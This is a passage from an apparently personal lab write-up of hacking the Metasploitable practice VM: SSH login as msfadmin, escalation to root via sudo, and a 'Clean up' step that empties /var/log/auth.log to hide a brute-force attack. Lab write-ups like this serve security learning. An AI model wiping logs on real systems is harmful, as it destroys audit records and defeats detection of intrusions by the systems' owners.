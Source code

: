 Next we try to login to the machine via SSH:

    # ssh msfadmin@192.168.56.103
    The authenticity of host '192.168.56.103 (192.168.56.103)' can't be established.
    RSA key fingerprint is 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3.
    Are you sure you want to continue connecting (yes/no)? yes
    Warning: Permanently added '192.168.56.103' (RSA) to the list of known hosts.
    msfadmin@192.168.56.103's password: 
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.

    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    No mail.
    Last login: Sat Nov  8 13:19:44 2014
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    msfadmin@metasploitable:~$ sudo su
    [sudo] password for msfadmin: 
    root@metasploitable:/home/msfadmin# whoami
    root
    
### Clean up
    
So I have a user, a password and I can launch stuff as root! One of the things I have to do know is clear some of my tracks.
The file `/var/log/auth.log` will include a huge amount of information about our SSH enumeration attempt and brute force attack, 
the lazy way to clean it is just remove everything. This just covers the how but not the fact the machine was compromised.
    
    # grep 'sshd' /var/log/auth.log | wc -l
    26659
    # echo "" >  /var/log/auth.log
    
Here we can see that we have almost 27000 log entries related too SSH, after we wipe it nothing of that will remain. 
The elegant solution would be to just remove all the entries that our brute force attack created, but I can't be bothered at this stage since I have been at it for a while now.

### Summary

This was a lot harder than the port 21 hack but still not impossible. I made a clear mistake trying to enumerate the SSH user and should have gone
for the Samba vulnerability right away. I was a bit to focused to do this port by port for the heck of it, but that is not how pentesting works.
I had a wealth of information and available (and a root shell) from previous activity, so I wanted to put some restrictions on my self but had to break them.

Hopefully the next hack will not be as long a write up as this one!


